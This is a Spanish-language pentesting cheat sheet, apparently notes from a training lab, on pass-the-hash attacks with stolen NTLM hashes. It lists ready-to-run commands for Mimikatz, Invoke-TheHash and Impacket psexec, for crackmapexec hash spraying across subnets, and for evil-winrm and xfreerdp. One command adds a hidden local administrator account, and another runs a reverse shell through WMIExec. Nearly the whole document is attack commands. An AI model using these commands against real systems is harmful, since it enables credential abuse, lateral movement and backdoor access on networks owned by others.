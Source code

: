 Si encontramos un hash NTLM podemos hacer uso del mismo aprovechando las facilidades que ofrecen los SO para correr servicios sin tener que poner la contraseña una y otra vez


### WINDOWS
##### Pass the hash con Mimikatz:
Requerimos:
- Hash NTLM o RC4
- User
- Dominio

    mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<hash> /domain:<dominio o nombre del host> /run:<.exe a ejecutar>" exit

##### PTH con Powershell & Invoke-TheHash:
Target - Hostname or IP address of the target.

Username - Username to use for authentication.

Domain - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.

Hash - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.

Command - command to run after connection

        https://github.com/Kevin-Robertson/Invoke-TheHash



        Import-Module .\Invoke-TheHash.psd1



        Invoke-SMBExec -Target <ip/hostname> -Domain <domain> -Username <username> -Hash <hash> -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

Tambien podemos usar revshell para generar una shell reversa y ejecutarla con WMIExec:

creamos la reverse shell:


        https://www.revshells.com/:



        Invoke-WMIExec -Target <hostname/ip> -Domain <domain> -Username <username> -Hash <hash> -Command "<reverse_shell_generada>"


### Linux
#### Impacket:

        impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

#### Crackmapexec:
        crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

tambien podemos buscarlo con local accounts:


        sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

#### Evil-winRM:

        evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

#### DP:
        xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
